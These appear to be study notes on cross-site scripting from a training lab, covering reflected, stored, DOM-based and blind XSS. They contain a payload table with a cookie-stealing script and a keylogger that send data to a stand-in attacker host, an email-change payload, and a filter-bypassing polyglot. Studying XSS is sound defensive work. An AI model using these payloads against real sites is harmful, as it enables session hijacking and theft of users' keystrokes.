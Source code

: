 # **Cross-site Scripting**

---

## **Introduction**

Injection attack where malicious JavaScript gets injected into a web application with the intention of being executed by other users

---

## **Payload**

Payload is the JavaScript code we wish to be executed on the targets computer

- intention:  what you wish the JavaScript to actually do
- modification: changes to the code we need to make it execute as every scenario is different

| Name | Exemple | Description |
| ---- | ------- | ----------- |
|Proof Of Concept|`<script>alert('XSS');</script>`|Demonstrate that you can achieve XSS on a website.|
|Session Stealing|`<script>fetch('https://hacker.thm/steal?cookie=' + btoa(document.cookie));</script>`|Details of a user's session, such as login tokens, are often kept in cookies on the targets machine|
|Key Logger|`<script>document.onkeypress = function(e) { fetch('https://hacker.thm/log?key=' + btoa(e.key) );}</script>`|anything you type on the webpage will be forwarded to a website under the hacker's control|
|Business Logic|`<script>user.changeEmail('attacker@hacker.thm');</script>`|This would be about calling a particular network resource or a JavaScript function|

---

## **Reflected XSS**

Reflected XSS happens when user-supplied data in an HTTP request is included in the webpage source without any validation.

Potential Impact : The attacker could send links or embed them into an iframe on another website containing a JavaScript payload to potential victims getting them to execute code on their browser

What to test:

1. Parameters in the URL
2. URL file path
3. HTTP headers

---

## **Stored XSS**

XSS payload is stored on the web application (in a database, for example) and then gets run when other users visit the site or web page.

What to test:

1. Comments on a blog
2. User profile information
3. Website Listings

---

## **DOM Based XSS**

DOM stands for Document Object Model and is a programming interface for HTML and XML documents.

A web page is a document, and this document can be either displayed in the browser window or as the HTML source.

DOM Based XSS is where the JavaScript execution happens directly in the browser without any new pages being loaded or data submitted to backend code.

What to test:

Look for parts of the code that access certain variables that an attacker can have control over, such as "window.location.x" parameters.

---

## **Blind XSS**

Blind XSS is similar to a stored XSS but in this instance, you can't see the payload working or be able to test it against yourself first.

What to test:

you need to ensure your payload has a call back (usually an HTTP request). This way, you know if and when your code is being executed.

---

## **Polyglots**

An XSS polyglot is a string of text which can escape attributes, tags and bypass filters all in one.

You could have used the below polyglot on all six levels you've just completed, and it would have executed the code successfully.

```html
jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */onerror=alert('THM') )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert('THM')//>\x3e
```
